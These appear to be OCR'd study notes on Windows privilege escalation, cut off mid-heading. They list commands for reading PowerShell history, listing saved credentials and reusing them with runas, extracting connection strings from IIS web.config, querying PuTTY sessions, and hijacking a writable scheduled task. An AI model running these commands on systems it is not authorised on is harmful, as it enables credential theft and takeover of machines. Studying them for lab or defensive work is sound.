 type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

  

# Powershell history from powershell: 

Write-Output $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

  

# Powershell history from powershell command

cat (Get-PSReadlineOption).HistorySavePath

  

- Saved windows credentials: `cmdkey /list` 
- Saved red can be used to run as other user: `runas /savecred /user:admin cmd.exe`

  

  

- Plain text IIS configuration

config locations

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

  

maybe database string contains password:

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

  

  

- PuTTY credentials: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
- any other software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.`

  


  

  

1. Scheduled tasks

  

- List scheduled tasks: `schtasks`
- Find task details for ‘vulntask’: `schtasks /query /tn vulntask /fo list /v`
- Check executable file ‘Task To Run’ and privilege from ‘Run As User’
- Check permission on the executable: `icacls c:\tasks\schtask.bat`
- Run the task on demand: `schtasks /run /tn vulntask`

  

Update bin script:
